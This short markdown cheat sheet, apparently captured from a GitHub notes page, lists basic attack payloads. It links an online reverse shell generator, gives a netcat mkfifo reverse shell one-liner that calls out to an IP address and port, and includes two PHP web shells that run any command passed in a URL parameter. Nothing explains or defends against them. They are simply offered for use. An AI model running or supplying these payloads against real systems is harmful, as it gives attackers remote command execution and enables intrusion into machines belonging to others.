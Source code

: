# Basic things
## online reverse shell editor
* https://www.revshells.com/
## netcat reverse shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.23.148 1234 >/tmp/f
## php web shell
* &lt;?php system($_GET['cmd']); ?&gt;
* &lt;?php system($_GET[1]); ?&gt;

